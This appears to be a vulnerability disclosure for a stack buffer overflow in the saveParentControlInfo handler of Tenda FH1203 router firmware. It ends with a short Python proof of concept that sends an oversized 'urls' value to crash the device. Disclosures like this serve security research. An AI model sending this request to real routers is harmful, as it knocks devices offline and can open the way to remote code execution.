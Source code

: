 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240319223326387](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223326387.png)

it reads in a user-provided parameter `urls`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223307458](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223307458.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223317455](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223317455.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"urls": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320014324581.png)
